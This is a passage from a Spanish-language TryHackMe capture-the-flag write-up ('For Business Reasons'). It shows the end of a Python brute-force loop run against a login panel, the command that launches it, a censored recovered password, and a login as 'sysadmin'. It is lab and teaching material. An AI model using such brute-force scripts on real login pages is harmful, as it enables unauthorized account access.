 ```python

		p2 = p1.status("%s" % i)

		if "incorrect" not in text:
			p1.success("%s" % i)
			break

if __name__ == '__main__':
	makeRequest()

```

Y así obtenemos la contraseña!

```bash
~$>./For_Business_Reasons-BruteForce.py
```
```bash
[+] Password: m<***CENSORED***>
```

Probamos la contraseña con el usuario (sysadmin) en el panel de login y entramos!

<p align="center">
<img src="/assets/images/thm-writeup-for-business-reasons/img5.png">
</p>
<p align="center">